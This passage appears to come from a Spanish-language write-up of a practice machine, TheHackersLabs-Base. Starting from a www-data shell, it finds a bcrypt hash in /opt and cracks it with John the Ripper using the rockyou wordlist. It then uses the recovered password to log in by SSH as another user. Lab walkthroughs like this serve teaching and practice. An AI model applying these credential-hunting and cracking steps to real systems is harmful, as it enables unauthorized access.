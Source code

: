 Si nos movemos al directorio del **usuario pedro** y listamos sus archivos, no encontraremos algo útil:
```bash
www-data@TheHackersLabs-Base:/home/flate$ cd ../pedro
www-data@TheHackersLabs-Base:/home/pedro$ ls -la
total 20
drwxr-xr-x 3 pedro pedro 4096 Sep 10  2024 .
drwxr-xr-x 4 root  root  4096 Sep 12  2024 ..
lrwxrwxrwx 1 pedro pedro    9 Sep 10  2024 .bash_history -> /dev/null
-rw-r--r-- 1 pedro pedro 5290 Jul 12  2023 .face
lrwxrwxrwx 1 pedro pedro    5 Jul 12  2023 .face.icon -> .face
drwxr-xr-x 3 pedro pedro 4096 Sep 10  2024 .local
```

Encontraremos un archivo interesante en el directorio `/opt`:
```bash
www-data@TheHackersLabs-Base:/home/pedro$ cd /opt
www-data@TheHackersLabs-Base:/opt$ ls -la
total 12
drwxr-xr-x  2 root  root  4096 Sep 10  2024 .
drwxr-xr-x 19 root  root  4096 Sep 10  2024 ..
-rw-r--r--  1 pedro pedro   61 Sep 10  2024 hash.txt
```

Al leerlo, resulta ser un hash:
```bash
www-data@TheHackersLabs-Base:/opt$ cat hash.txt 
$2b$12$Qq75yQ3G.ydG2nxr4LzAPeJ6GE8po1NtjOAGZ2l1aIGa5//I5J/Xq
```

Podemos copiarlo en nuestra máquina y tratar de crackearlo con la herramienta **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*****           (?)     
1g 0:00:00:01 DONE (2025-09-01 12:05) 0.6451g/s 34.83p/s 34.83c/s 34.83C/s 123456..basketball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Parece ser una contraseña, quizá de alguno de los usuarios.

Resultó ser la contraseña del **usuario pedro**, con la que podemos ganar acceso a la máquina vía **SSH**:
```bash
ssh pedro@192.168.100.70
pedro@192.168.100.70's password: 
Linux TheHackersLabs-Base 6.1.0-25-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.106-3 (2024-08-26) x86_64
...
pedro@TheHackersLabs-Base:~$ whoami
pedro
```
